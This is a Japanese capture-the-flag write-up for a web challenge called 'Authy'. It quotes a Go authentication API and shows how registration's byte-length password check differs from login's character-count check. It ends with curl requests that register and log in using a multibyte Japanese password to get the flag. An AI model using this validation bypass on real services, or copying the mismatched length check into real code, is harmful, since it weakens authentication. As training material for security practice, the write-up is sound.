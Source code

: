 # Authy:WEB:50pts
I have just learned Golang and trying to build a small authentication platform with it. It's a simple API so it should be secure right ?  

[http://a769a62b4442de42d315a.playat.flagyard.com](http://a769a62b4442de42d315a.playat.flagyard.com)  

[challenge-files-e8024110-c9af-462a-810d-736112066f55.zip](challenge-files-e8024110-c9af-462a-810d-736112066f55.zip)  

# Solution
URLとzipが渡される。  
zipのパスワードは`flagyard`のようで、展開するとソースコードが入っている。  
server.goは以下のようであった。  
```go
~~~
func main() {
	e := echo.New()

	// e.Use(middleware.Logger())
	e.Use(middleware.Recover())

	e.Use(middleware.CORSWithConfig(middleware.CORSConfig{
		AllowOrigins: []string{"*"},
		AllowMethods: []string{echo.GET, echo.POST},
	}))

	e.POST("/login", controllers.LoginController)
	e.POST("/registration", controllers.Registration)
	s := &http.Server{
		Addr:         ":1323",
		ReadTimeout:  20 * time.Minute,
		WriteTimeout: 20 * time.Minute,
	}
	e.Logger.Fatal(e.StartServer(s))
}
```
`/login`と`/registration`があり、controllerに実装があるようだ。  
controller/LoginController.goは以下のようであった。  
```go
~~~
func Registration(c echo.Context) error {
	var user models.Users
	body, _ := io.ReadAll(c.Request().Body)
	err := json.Unmarshal(body, &user)
	if err != nil {
		return err
	}
	if len(user.Password) < 6 {
		log.Error("Password too short")
		resp := c.JSON(http.StatusConflict, helper.ErrorLog(http.StatusConflict, "Password too short", "EXT_REF"))
		return resp
	}
	DB := db.DB()
	var count int
	sqlStatement := `Select count(username) from users where username=?`
	err = DB.QueryRow(sqlStatement, user.Username).Scan(&count)
	if err != nil {
		log.Error(err.Error())
	}
	if count > 0 {
		log.Error("username already used")
		resp := c.JSON(http.StatusConflict, helper.ErrorLog(http.StatusConflict, "username already used", "EXT_REF"))
		return resp
	}
	//hashing password (even it's a CTF, stick to the good habits)
	hash, err := bcrypt.GenerateFromPassword([]byte(user.Password), 5)
	if err != nil {
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, " Error While Hashing Password", "EXT_REF"))
		return resp
	}
	user.Password = string(hash)
	user.DateCreated = helper.DateTime()
	user.Token = helper.JwtGenerator(user.Username, user.Firstname, user.Lastname, os.Getenv("SECRET"))
	stmt, err := DB.Prepare("Insert into users (username,firstname,lastname,password,token,datecreated) VALUES (?,?,?,?,?,?)")
	if err != nil {
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, "Error when prepare statement : "+err.Error(), "EXT_REF"))
		return resp
	}
	_, err = stmt.Exec(user.Username, user.Firstname, user.Lastname, user.Password, user.Token, user.DateCreated)
	if err != nil {
		log.Error(err)
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, "Error when execute statement : "+err.Error(), "EXT_REF"))
		return resp
	}
	resp := c.JSON(http.StatusOK, user)
	log.Info()
	return resp
}

type Flag struct {
	Flag string `json:"flag"`
}

func LoginController(c echo.Context) error {
	var user models.Users
	payload, _ := io.ReadAll(c.Request().Body)
	err := json.Unmarshal(payload, &user)

	if err != nil {
		log.Error(err)
		return err
	}
	var result models.Users
	DB := db.DB()
	sqlStatement := "select * from users where username=?"

	err = DB.QueryRow(sqlStatement, user.Username).Scan(&result.Username, &result.Firstname, &result.Lastname, &result.Password, &result.Token, &result.DateCreated)
	if err != nil {
		log.Error(err)
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, "Invalid Username", "EXT_REF"))
		return resp
	}

	err = bcrypt.CompareHashAndPassword([]byte(result.Password), []byte(user.Password))
	if err != nil {
		log.Error("Invalid Password :", err)
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, "Invalid Password", "EXT_REF"))
		return resp
	}
	password := []rune(user.Password)
	result.Token = helper.JwtGenerator(result.Username, result.Firstname, result.Lastname, os.Getenv("SECRET"))
	if len(password) < 6 {
		flag := os.Getenv("FLAG")
		res := &Flag{
			Flag: flag,
		}
		resp := c.JSON(http.StatusOK, res)
		log.Info()
		return resp
	}
	resp := c.JSON(http.StatusOK, result)
	log.Info()
	return resp
}
```
ユーザ登録時のパスワードは6文字以上である必要があるが、6文字未満のパスワードでログインした場合のみフラグが表示される。  
一見すると矛盾しているが、`LoginController`で`password := []rune(user.Password)`していることがわかる。  
`Registration`の`len`ではバイト数が返るのに対し、こちらでは文字数が返される。  
つまり、6バイト以上で6文字未満になるものをパスワードとすればよい。  
日本人なので以下のように行う。  
```bash
$ curl -X POST http://a769a62b4442de42d315a.playat.flagyard.com/registration -d '{"username": "Satoki", "password": "さとき"}'
{"username":"Satoki","password":"$2a$05$3slgG76z4eo1tMBp5sunkuqW5rpAgYkj6RfXnsMMjilEdi.glJyHa","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdG5hbWUiOiIiLCJsYXN0bmFtZSI6IiIsInVzZXJuYW1lIjoiU2F0b2tpIn0.6C9uCVRQzP833N4uXdwGTBPVmCmUeDW-hODKgEV_FdQ","date_created":"2023-10-09 09:32:58"}
$ curl -X POST http://a769a62b4442de42d315a.playat.flagyard.com/login -d '{"username": "Satoki", "password": "さとき"}'
{"flag":"BHFlagY{43ef8a7241d47ce611eb5d42f1672b6b}"}
```
flagが得られた。  

## BHFlagY{43ef8a7241d47ce611eb5d42f1672b6b}